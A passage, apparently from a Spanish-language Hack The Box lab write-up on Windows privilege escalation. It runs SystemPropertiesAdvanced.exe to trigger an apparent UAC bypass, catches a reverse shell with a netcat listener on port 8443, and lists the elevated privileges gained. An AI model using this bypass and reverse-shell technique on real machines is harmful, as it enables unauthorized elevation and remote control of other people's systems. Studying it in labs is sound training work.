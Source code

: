 ```r
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

### Receiving Connection Back

Verificando en nuestro listener, deberíamos recibir una conexión casi al instante.

```r
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah


C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
```